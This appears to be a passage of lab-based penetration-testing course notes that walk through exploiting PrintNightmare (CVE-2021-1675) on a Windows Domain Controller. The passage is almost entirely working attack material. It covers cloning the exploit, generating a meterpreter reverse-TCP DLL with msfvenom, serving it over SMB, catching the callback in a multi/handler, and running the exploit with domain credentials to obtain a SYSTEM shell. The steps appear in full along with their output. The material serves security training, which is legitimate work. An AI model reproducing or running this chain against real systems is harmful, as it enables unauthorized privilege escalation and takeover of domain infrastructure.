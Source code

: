 ### Cloning the Exploit

```bash
Yashfren@htb[/htb]$ git clone https://github.com/cube0x0/CVE-2021-1675.git
```
###### For this exploit to work successfully, we will need to use cube0x0's version of Impacket. We may need to uninstall the version of Impacket on our attack host and install cube0x0's (this is already installed on ATTACK01 in the lab). We can use the commands below to accomplish this:
### Install cube0x0's Version of Impacket

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
###### We can use rpcdump.py to see if Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target.
### Enumerating for MS-RPRN

```bash
Yashfren@htb[/htb]$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
```
###### After confirming this, we can proceed with attempting to use the exploit. We can begin by crafting a DLL payload using msfvenom.
### Generating a DLL Payload

```bash
Yashfren@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 8704 bytes
```
###### We will then host this payload in an SMB share we create on our attack host using smbserver.py.
### Creating a Share with smbserver.py

```bash
Yashfren@htb[/htb]$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
###### Once the share is created and hosting our payload, we can use MSF to configure & start a multi handler responsible for catching the reverse shell that gets executed on the target.
### Configuring & Starting MSF multi/handler

```bash
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080 
```
###### With the share hosting our payload and our multi handler listening for a connection, we can attempt to run the exploit against the target. The command below is how we use the exploit:
### Running the Exploit

```
Yashfren@htb[/htb]$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'

[*] Connecting to ncacn_np:172.16.5.5[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\172.16.5.225\CompData\backupscript.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...

<SNIP>
```

###### Notice how at the end of the command, we include the path to the share hosting our payload (\\\<ip address of attack host>\ShareName\nameofpayload.dll). If all goes well after running the exploit, the target will access the share and execute the payload. The payload will then call back to our multi handler giving us an elevated SYSTEM shell.
### Getting the SYSTEM Shell

```bash
[*] Sending stage (200262 bytes) to 172.16.5.5
[*] Meterpreter session 1 opened (172.16.5.225:8080 -> 172.16.5.5:58048 ) at 2022-03-29 13:06:20 -0400

(Meterpreter 1)(C:\Windows\system32) > shell
Process 5912 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
###### Once the exploit has been run, we will notice that a Meterpreter session has been started. We can then drop into a SYSTEM shell and see that we have NT AUTHORITY\SYSTEM privileges on the target Domain Controller starting from just a standard domain user account.

